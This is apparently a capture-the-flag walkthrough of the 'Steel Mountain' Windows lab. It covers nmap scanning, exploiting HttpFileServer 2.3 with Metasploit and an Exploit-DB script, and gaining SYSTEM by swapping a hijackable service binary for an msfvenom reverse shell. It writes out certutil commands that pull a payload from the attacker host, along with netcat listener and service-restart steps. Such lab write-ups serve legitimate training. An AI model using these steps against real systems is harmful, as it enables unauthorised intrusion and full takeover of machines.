 # Steel Mountain
![](https://i.imgur.com/hc9C0Uq.png)

- running a scan to know what is going on on our targets network
## Scan results
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.70.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:09 EST
Nmap scan report for 10.10.70.217
Host is up (0.32s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-01-30T07:13:28+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-01-29T06:47:42
|_Not valid after:  2024-07-30T06:47:42
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-30T07:13:21+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4c:5d:c0:bf:49 (unknown)
| smb2-time: 
|   date: 2024-01-30T07:13:22
|_  start_date: 2024-01-30T06:47:34
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1m49s, deviation: 0s, median: 1m49s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.59 seconds
```
- From the above result i see that is is a windows OS.
- it has a web-server running on both port `80` an `8080` 

navigating to the web-server on port `80` i found a picture of the employee of the month and nothing else
![](https://i.imgur.com/Y86ZcGU.png)
But when i view the page source i see where the web-server is serving that image from there backend server and the image is saved with a human name so it has to be `employee of the month` 
![](https://i.imgur.com/UM6jW86.png)
- Nothing else to see from here so i navigate to the second web-server `8080`
## Initial access

![](https://i.imgur.com/N2Mqb8e.png)
- i was able to see the service version of the web-server from the bottom of the web-page
i then search for the version of the sever and i found the full name of the file server running and a possible exploit
![](https://i.imgur.com/EPS1vh2.png)
clicking on the first link i was able to understand what i can use to get access 
![](https://i.imgur.com/NAk7cQw.png)
From some of the other search results i noticed some website said there is an exploit for this vulnerability on metasploit, so i start up metasploit and search using the `CVE` 
![](https://i.imgur.com/7N9yhzI.png)
Then i set the needed options and run the module to get a Meterpreter shell
![](https://i.imgur.com/tTohvwL.png)
checking information about the target system i have :
![](https://i.imgur.com/FuenHzR.png)
![](https://i.imgur.com/QdO5XPZ.png)
```bash
C:\Users\bill\Desktop
```

## Privilege Escalation

To enumerate this machine, i will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities
- "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.
![](https://i.imgur.com/faBcq6J.png)

```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell
```
![](https://i.imgur.com/WB7STAx.png)

![](https://i.imgur.com/cVE0o3M.png)

>[!note] 
>The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Using  msfvenom to generate a reverse shell as an Windows executable and naming it the exact name of the `AdvancedSystemCareService9` executable file: `Advanced.exe` and using the encoder `x86/shikata_ga_nai` 
![](https://i.imgur.com/gZ2SvMq.png)
Then i uploaded the executable file into the `Iobit` Directory on `Bill's` machine
![](https://i.imgur.com/64CVha2.png)
i type `shell` in the meterpreter prompt to get a windows shell and copy the `Advanced.exe` file into the `Advanced SystemCare` directory
![](https://i.imgur.com/LrWihXA.png)
in a new terminal i started a netcat listener on the port specified in the msfvenom payload i created earlier.
![](https://i.imgur.com/bhFwzWP.png)

Then i stop and restart the `AdvancedSystemCareService9` service and i got an `NTauthority\system` reverse shell to the listener
![](https://i.imgur.com/u8RqvZl.png)

![](https://i.imgur.com/ZkAw4fW.png)

![](https://i.imgur.com/Hdqz15q.png)

# Manual Foothold and exploitation

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.

To begin we shall be using the same CVE `the exploit code from exploitdb` [here](https://www.exploit-db.com/download/39161)

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!.

- before i begin i restart the machine so all changes will reset back to default
after downloading the exploit i used nano to change some needed settings
![](https://i.imgur.com/l2GhBOB.png)
then i change the name of the Netcat binary i downloaded from `ncat.exe` to `nc.exe` because from the exploit code i see that it is calling `nc.exe` not `ncat.exe`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ mv ncat.exe nc.exe
```
1. i started a python server in the directory i have the `nc.exe` binary and also start a listener withe the port specified in the exploit the i run the exploit
![](https://i.imgur.com/ssJddjr.png)
2. i run the exploit again and this time i get a reverse shell connection
![](https://i.imgur.com/dYuLSpq.png)

![](https://i.imgur.com/o61hQWK.png)
### Privilege Escalation
I downloaded the WinpeasX64exe file from there official [Github](https://github.com/carlospolop/PEASS-ng/releases/download/20240128-3084e4e1/winPEASx64.exe)

I started another python web server in the directory i downnloaded it too and i created a directory on the target machine then use `certutil` to transfer the winPEAS binary to the target machine
![](https://i.imgur.com/c8bWfTj.png)

```powershell
certutil -urlcache -f http://10.6.92.85:80/winPEASx64.exe winPEASx64.exe
```
then i run the the winPEAS script:
![](https://i.imgur.com/fmtyfbU.png)
scrolling through the output i see this section about the unquoted path we used earlier
![](https://i.imgur.com/tCY7Sc4.png)
running `powershell -c get-service` , i can see that the service is running `sc stop AdvancedSystemCareService9` :
![](https://i.imgur.com/JOErDYc.png)

Then i moved into the Iobit directory and use `certutil` to download the advance.exe file i created earlier with msfvenom to the target machine (my python server is still running)

```powershell
certutil -urlcache -f http://10.6.92.85:80/Advanced.exe Advanced.exe
```

i copied the advanced.exe file to the `Advanced SystemCare` directory then i stop and restart the service `sc stop AdvancedSystemCareService9`then `sc start AdvancedSystemCareService9` 

- lastly i use netcat to listen on the port that is specified in my msfvenom payload and i got a higher privilege shell
![](https://i.imgur.com/xwUYqGP.png)

## Thanks For Reading

